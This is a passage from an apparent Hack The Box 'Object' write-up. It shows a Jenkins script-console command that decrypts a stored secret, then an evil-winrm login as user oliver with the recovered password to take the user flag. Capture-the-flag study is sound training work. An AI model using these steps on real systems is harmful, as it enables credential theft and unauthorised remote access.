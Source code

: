 Note: If we had access to the `/script` console, we could have decoded the password hash there with:

```
println(hudson.util.Secret.decrypt("{AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=}"))
```

With this decrypted password hash we can use evil-winrm to logon as oliver, and grab the user.txt flag:

```
┌──(ryan㉿kali)-[~/HTB/Object]
└─$ evil-winrm -u oliver -p 'c1cdfun_d2434' -i 10.129.96.147 

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\oliver\Documents> whoami
object\oliver
*Evil-WinRM* PS C:\Users\oliver\Documents> hostname
jenkins
```

![htb_object_user_flag](../assets/object_assets/htb_object_user_flag.png)

### Privilege Escalation

